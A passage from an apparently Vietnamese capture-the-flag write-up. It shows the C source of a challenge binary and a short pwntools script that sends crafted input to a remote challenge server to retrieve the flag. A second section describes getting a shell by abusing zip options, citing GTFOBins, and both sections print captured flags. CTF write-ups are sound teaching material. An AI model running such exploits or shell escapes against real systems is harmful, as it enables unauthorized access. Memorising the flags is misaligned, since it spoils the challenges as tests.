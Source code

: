 int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    bzero(&DataStore, sizeof(DataStore));
    printf("\nSomething strange is coming out of the TV..\n");
    while (1) {
        menu_t result = menu();
        switch (result.act) {
        case STORE_SET:
            set_field(result.field);
            break;
        case STORE_GET:
            get_field(result.field);
            break;
        case FLAG:
            get_flag();
            break;
        }
    }

}
```

script : 
```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./entity')

#p = process()
p = remote('94.237.59.180',48195)
p.sendline(b'T')
p.sendline(b'S')
p.sendlineafter(b'>> ',p64(13371337))
p.sendline(b'C')

success(f"flag ---->>>> {p.recvline_contains(b'HTB').strip().decode()}")
p.interactive()
```

-------

12 . Compressor (misc)
-----

1 bài khá hay về sử dụng tùy chọn của zip để lấy shell 

- cụ thể ta sẽ xem ở đây :
https://gtfobins.github.io/gtfobins/zip/

hoặc tải nó về luôn : https://github.com/7Rocky/gtfobins-cli

nếu ta làm theo tương tự thì sẽ lấy được SHELL

![image](https://hackmd.io/_uploads/SJrxYhjbJe.png)


okay vậy ta sẽ làm tương tự 


- chọn option1 tạo 1 file xong mới zip được 

![image](https://hackmd.io/_uploads/rkjMKno-kl.png)

```HTB{z1pp1ti_z0pp1t1_GTFO_0f_my_pr0p3rty}```

```